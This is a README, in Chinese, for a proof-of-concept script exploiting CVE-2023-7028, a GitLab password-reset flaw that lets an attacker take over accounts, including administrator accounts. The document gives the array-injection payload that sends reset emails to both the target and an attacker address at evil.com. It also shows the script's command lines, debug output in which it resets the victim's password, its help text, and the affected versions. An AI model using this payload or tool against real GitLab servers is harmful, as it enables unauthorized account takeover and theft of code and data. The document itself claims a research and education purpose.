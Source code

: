 CVE-2023-7028 | 帐户接管 Gitlab
免责声明
这段代码是该漏洞的概念证明，我不会敦促任何人在他们不拥有的 gitlab 实例上使用它。
该工具仅为研究和教育目的而开发，我对您可能使用它的任何行为不承担任何责任。

描述：
CVE-2023-7028 是指帐户接管漏洞，该漏洞允许用户无需用户交互即可控制 gitlab 管理员帐户。

该漏洞存在于重置密码时的电子邮件管理中。攻击者可以提供 2 个电子邮件，重置代码将发送给这两个电子邮件。
因此，可以提供目标帐户以及攻击者的电子邮件地址，并重置管理员密码。
（Gitlab 指出，两因素身份验证可防止此漏洞被利用，因为攻击者即使在重置密码后也无法登录。）

该漏洞由asterion04发现

有效负载：
这是一个示例有效负载

user[email][]=my.target@example.com&user[email][]=hacker@evil.com
概念验证：
方法 1：使用临时电子邮件
python3 ./CVE-2023-7028.py -u https://gitlab.example.com/ -t my.target@example.com

[DEBUG] Getting temporary mail
[DEBUG] Scrapping available domains on 1secmail.com
[DEBUG] 8 domains found
[DEBUG] Temporary mail: 6grp7ert9y@laafd.com
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = bc91lpzwTOaY9dg5SWjLvvDDb61j6ZunCX4DXYlSnWz9Y3zK35SPiLNShhrDrPVDgY_AzQjzpD5qVt2WXeolog
[DEBUG] Sending reset password request
[DEBUG] Emails sended to my.target@example.com and hacker@evil.com !
[DEBUG] Waiting mail, sleeping for 7.5 seconds
[DEBUG] Getting link using temp-mail | Try N°1 on 5
[DEBUG] Getting last mail for 6grp7ert9y@laafd.com
[DEBUG] 1 mail(s) found
[DEBUG] Reading the last one
[DEBUG] Generating new password
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = RN6gypVz7Zxtu2zRsJmKPsDHNumIH_UPvdn7aQoWRBnUcqmW1hcu8kYcMvI6XbTDsYuZieMFypbe8SWi3q781w
[DEBUG] Changing password to l3mG2v2XN4UBzbN18ZkW
[DEBUG] CVE_2023_7028 succeed !
        You can connect on https://gitlab.example.com/users/sign_in
        Username: my.target@example.com
        Password: l3mG2v2XN4UBzbN18ZkW
方法2：使用恶意电子邮件
python3 ./CVE-2023-7028.py -u https://gitlab.example.com/ -t my.target@example.com -e hacker@evil.com

[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = 1Yt1EUeWSL-oiSV7v1Z6ghdCDG3w0FFCQB8Uc5B5GAodVNJ26OlPT8HtYYleGXB9F0otas3gnHOtRfhFall8pQ
[DEBUG] Sending reset password request
[DEBUG] Emails sended to my.target@example.com and hacker@evil.com !
        Input link received by mail: https://gitlab.example.com/users/password/edit?reset_password_token=U8PSU7DXdebdTD3GjMiX
[DEBUG] Generating new password
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = N7gs43C9ZMxdniA9UEzzfH2Rlhgejt75M1Kw88vaarP_Z4uE38JjPDT6ZM-xA_mDfZm3HyO-E8jeCFzFMfoOHA
[DEBUG] Changing password to EU7XIYjlawjb5tH2jgmU
[DEBUG] CVE_2023_7028 succeed !
        You can connect on https://gitlab.example.com/users/sign_in
        Username: my.target@example.com
        Password: EU7XIYjlawjb5tH2jgmU
帮助
$ python3 .\CVE-2023-7028.py -h
usage: CVE-2023-7028.py [-h] -u URL -t TARGET [-e EVIL]

This tool automates CVE-2023-7028 on gitlab

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Gitlab url
  -t TARGET, --target TARGET
                        Target email
  -e EVIL, --evil EVIL  Evil email
  -p PASSWORD, --password PASSWORD
                        Password
笔记：
如果没有--evil指定攻击者电子邮件地址的选项，该脚本将使用公共临时邮件来查找密码重置链接。
=>如果在渗透测试期间使用此 poc，请小心。

相关版本
16.1至16.1.5
16.2至16.2.8
16.3至16.3.6
16.4至16.4.4
16.5 至 16.5.5
16.6至16.6.3
16.7至16.7.1
参考：
https://about.gitlab.com/releases/2024/01/11/ritic-security-release-gitlab-16-7-2-released/
https://docs.gitlab.com/ee/install/docker.html
https://www.cert.ssi.gouv.fr/avis/CERTFR-2024-AVI-0030/
https://github.com/Vozec/CVE-2023-7028